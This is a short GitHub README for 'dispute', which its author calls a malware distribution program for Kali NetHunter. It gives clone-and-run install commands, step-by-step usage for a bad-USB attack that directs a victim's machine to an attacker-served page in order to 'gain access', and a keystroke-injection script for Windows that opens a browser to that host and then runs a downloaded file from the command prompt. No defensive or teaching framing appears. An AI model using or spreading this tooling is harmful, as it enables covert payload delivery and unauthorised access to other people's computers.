 # dispute
a simple malware distrupution program i made for kali nethunter

# Install
`git clone https://github.com/buffkermitisagod/dispute.git`
`cd dispute`
`python3 main.py`

# Usage
this is a simple script i made with flask to be used with kali nethunter and the bad usb arsenal   
1) connect device to target mechine
2) run usb tethering
3) run bad usb attack directing target to http://192.168.1.1:<port>
4) gain accses to there mechien :)

# Kali Bad usb example script
### Windows 
```
GUI r
DELAY 500
STRING iexplore -k http://126.168.1.1:<port>
ENTER
DELAY 600
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING ./downloads/run
ENTER

```
